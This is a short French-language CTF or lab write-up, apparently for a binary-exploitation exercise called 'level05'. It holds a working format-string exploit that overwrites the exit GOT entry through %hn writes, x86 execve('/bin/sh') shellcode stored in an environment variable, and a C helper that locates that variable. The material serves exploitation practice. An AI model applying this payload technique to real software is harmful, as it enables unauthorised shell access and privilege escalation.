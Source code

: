 gdb x/1w 0x080497e0
0x80497e0 <exit@got.plt>:	0xffffd6b8

0xffffd91a Shellcode address in 

(python -c 'print "\xe2\x97\x04\x08" + "\xe0\x97\x04\x08" + "%55570d%11$hn" + "%9957d%10$hn"'; cat) | ./level05

"\xe2\x97\x04\x08" -> adresse de exit + 2
"\xe0\x97\x04\x08" -> adresse de exit
"%55570d%11$hn" + "%9957d%10$hn" -> adresse de notre shellcode dans l'environnement qui sera ecrit 2 bit par 2 bit 

ffff -> 65535 - 55578 -> 9957
d91a -> 55578 - 8 -> 55570

pour avoir l'adresse du shellcode dans l'environnement
export SHELLCODE=$(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')


On execute cette fonction pour avoir l'adresse du shelcode:
#include <stdio.h>
#include <stdlib.h>

int main() {
    char *addr = getenv("SHELLCODE");
    if (addr) {
        printf("SHELLCODE address: %p\n", addr);
    } else {
        printf("SHELLCODE not found\n");
    }
    return 0;
}

compiler avec gcc -m32 pour avoir l'adresse en 32bit et pas en 64

c'est cette adresse que l'on va vouloir reecrire sur exit


penser a recuperer les emplacements dans la stack de la ou on va ecrire
